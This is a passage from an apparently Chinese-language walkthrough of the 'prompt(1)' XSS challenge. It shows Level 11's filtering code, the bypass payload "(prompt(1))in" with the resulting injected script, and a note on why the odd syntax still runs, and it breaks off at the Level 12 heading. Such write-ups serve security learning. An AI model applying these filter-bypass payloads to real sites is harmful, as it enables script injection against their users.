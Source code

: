 ### 答案

```
p'rompt(1)

```

Level 11
--------

* * *

这个题目直接允许注入数据到script标签里面，但是过滤了特殊符号。这里的技巧是使用一个数据或者字母拥有操作符的功能，就是in

### 代码

```
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}

```

### 答案

```
"(prompt(1))in"


<script>                                    
    var data = {"action":"login","message":"Welcome back, "(prompt(1))in"."};          
    if (data.action === "login")            
        document.write(data.message)        
</script>

```

### 背景知识

`"test"(alert(1))`虽然会提示语法错误， 但是还是会执行js语句。类似的`alert(1)in"test"`也是一样。可以在控制台下使用F12执行

Level 12
--------

